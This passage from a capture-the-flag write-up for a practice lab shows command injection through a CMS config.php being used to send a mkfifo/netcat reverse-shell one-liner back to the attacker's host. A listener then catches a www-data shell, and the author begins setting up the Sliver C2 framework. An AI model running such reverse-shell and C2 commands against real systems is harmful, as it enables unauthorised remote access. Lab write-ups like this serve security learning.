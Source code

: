 **It's has `nc` installed! Let's use `nc` payload for our reverse shell:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# curl http://toc2.thm/cmsms/config.php --get --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.0.253 443 >/tmp/f"
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.248.228] 45592
bash: cannot set terminal process group (927): Inappropriate ioctl for device
bash: no job control in this shell
www-data@toc:/var/www/html/cmsms$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
toc
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ce:63:e0:0d:67 brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.228/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3060sec preferred_lft 3060sec
    inet6 fe80::ce:63ff:fee0:d67/64 scope link 
       valid_lft forever preferred_lft forever
```

We're in!

**We can also upgrade our shell to a stable shell, so we won't accidentally exit the shell:**

> Note: Since I wanna practice my red teaming skills, I'll use a C2 (Command and Control) framework called [Sliver](https://github.com/BishopFox/sliver).

- Teamserver:

**Starting the teamserver:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# /opt/sliver-server_linux
[...]
[server] sliver > 
```

**Create a new profile for a player (client) to connect:**
```
[server] sliver > new-operator --lhost 10.9.0.253 --lport 31337 --name siunam --save /root/.sliver-client/configs

[*] Generating new client certificate, please wait ... 
[*] Saved new client config to: /root/.sliver-client/configs/siunam_10.9.0.253.cfg

[server] sliver > operators

 Name     Status  
======== =========
 siunam   Offline
```
